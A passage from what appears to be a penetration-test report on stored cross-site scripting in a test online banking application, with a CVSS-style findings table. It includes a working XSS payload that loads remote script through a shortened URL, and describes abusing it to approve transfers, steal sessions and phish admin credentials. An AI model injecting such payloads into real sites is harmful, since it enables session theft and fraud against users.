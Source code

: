 \subsubsection*{Comparison}
Both applications allowed no reflected XSS.

\subsection{Testing for Stored Cross Site Scripting}

\subsubsection*{Online Banking}

\begin{tabular}{l|p{10cm}}
\textbf{Observation} & Stored XSS can be injected via the username when registering and into the purpose field when making transactions. The email used for registration, however, is checked for validity. User names can't be longer than 32 signs. This is just enough to inject something like "$<script src=//bit.ly/1MvAdrm>$". Users who register after this exploit has been used won't be shown, since the end tag is missing. For the transaction's description there is more space, but an account is needed. \\
\textbf{Discovery} & TODO\\
\textbf{Impact} & Using this it's possible to e.g. automatically accept payments of over 10000 as soon as an admin opens the "Approve Transfers" page. Given a user's TAN, it's also possible to transfer their money into one's own account by sending them a manipulated transaction. The manipulated transaction just has to include code that creates a transaction in the victim's name. Furthermore, it's possible to steal sessions or, by injecting fake login forms even credentials of admins. By injecting into the username, the attacker can also auto-accept themselves as real user as soon as an admin opens the "Approve Registrations" tab. \\
\textbf{Likelihood} & High \\
\textbf{Access Vector} & Network \\
\textbf{Access Complexity} & Low\\
\textbf{Privileges Required} & N/L: None for the registration XSS, Low user priviledges for XSS in transactions\\
\textbf{User Interaction} & Yes \\
\textbf{Scope} & Unchanged \\
\textbf{Confidentiality} & High \\
\textbf{Intigrity} & High\\
\textbf{Availability} & Low \\
\end{tabular}

